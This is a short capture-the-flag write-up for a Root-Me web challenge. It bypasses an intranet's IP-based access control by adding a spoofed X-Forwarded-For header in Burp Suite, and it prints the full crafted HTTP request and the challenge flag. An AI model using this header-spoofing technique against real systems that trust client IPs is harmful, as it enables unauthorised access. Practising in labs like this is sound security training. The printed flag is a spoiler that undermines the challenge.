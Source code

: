 # HTTP - IP filtering bypass

> Dear colleagues, We’re now managing connections to the intranet using private IP addresses, so it’s no longer necessary to login with a username / password when you are already connected to the internal company network. Regards, The network admin&#x20;

<figure><img src="../../.gitbook/assets/1 (98).png" alt=""><figcaption></figcaption></figure>

* Let's intercept this request in Burpsuite.

<figure><img src="../../.gitbook/assets/2 (50).png" alt=""><figcaption></figcaption></figure>

* Next, we can send this request to the `Repeater`.

### X-Forwarded-For

```
X-Forwarded-For: <client>, <proxy1>, <proxy2>
```

* It is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through a proxy server.
* We can add this header and set it's value to `192.168.0.1` as the origin should be connected to the internal company network.

### HTTP Request

```
POST /web-serveur/ch68/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
X-Forwarded-For: 192.168.0.1
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch68/
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697290591.1.1.1697292257.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

* For the final step we have to send this request to the server.

<figure><img src="../../.gitbook/assets/3 (47).png" alt=""><figcaption></figcaption></figure>

### Flag

```
Ip_$po0Fing
```
